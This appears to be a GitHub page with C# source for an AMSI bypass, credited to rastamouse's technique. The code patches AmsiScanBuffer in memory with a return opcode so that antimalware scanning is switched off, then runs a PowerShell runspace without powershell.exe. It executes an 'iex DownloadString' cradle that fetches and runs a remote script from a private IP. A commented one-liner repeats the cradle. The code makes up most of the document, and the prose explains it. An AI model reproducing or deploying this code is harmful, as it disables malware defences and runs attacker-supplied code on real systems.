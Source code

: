 The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.I woulnd have recommend blocking System.Management.Automation.dll like I mention above The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command.


**This AMSI Patching Techniquie is heavy reliance on rastamouse Techniques**
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {
          
            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }
        //powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/Test'))"
        public class Execution
        {
            public static void MeMe()
            {
                RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
                Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
                rspace.Open();
                Pipeline pipeline = rspace.CreatePipeline();
                pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('http://192.168.200.128:80/Test'))");
                pipeline.Invoke();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
